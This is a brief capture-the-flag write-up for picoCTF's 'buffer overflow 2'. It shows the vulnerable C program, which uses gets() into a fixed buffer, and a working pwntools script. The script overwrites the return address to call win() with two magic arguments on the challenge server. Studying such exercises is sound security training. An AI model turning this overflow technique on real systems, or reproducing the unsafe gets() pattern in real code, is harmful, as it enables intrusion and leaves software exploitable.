

# buffer overflow 2 [Pwn]

Link : [buffer overflow 2](https://play.picoctf.org/practice/challenge/259?category=6&originalEvent=70&page=1)

Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}


```

Control the return address and arguments

32 bits function call: fun_addr + 4 bytes + arg0 + arg1 + arg2 + .... + argn

```python
from pwn import *


sh = remote("saturn.picoctf.net",60889)
print(sh.recv().decode())
sh.sendline(b"A"*(100+4+4+4) + p32(0x08049296) + b"P"*4 + p32(0xCAFEF00D) + p32(0xF00DF00D))
sh.interactive()
```


